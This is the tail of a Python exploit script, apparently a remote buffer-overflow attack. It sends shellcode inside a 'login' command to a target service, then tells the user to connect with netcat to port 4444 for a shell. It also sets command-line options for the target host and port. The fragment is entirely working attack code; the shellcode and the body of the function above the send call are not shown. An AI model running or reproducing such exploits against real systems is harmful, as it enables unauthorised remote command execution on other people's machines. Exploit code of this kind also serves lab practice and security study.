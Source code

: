 ```
    s.send("login " + shellcode + "\n")

    s.close

    print("[*] Exploit successfull! Now launch: nc " + str(host) + " 4444")
    
if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1", type="string", help="Target to exploit")
    parser.add_option("-p", "--port", dest="portnum", default=2994, type="int", help="Target port")

    (options, args) = parser.parse_args()
    
    exploit(options.hostname, options.portnum)
```

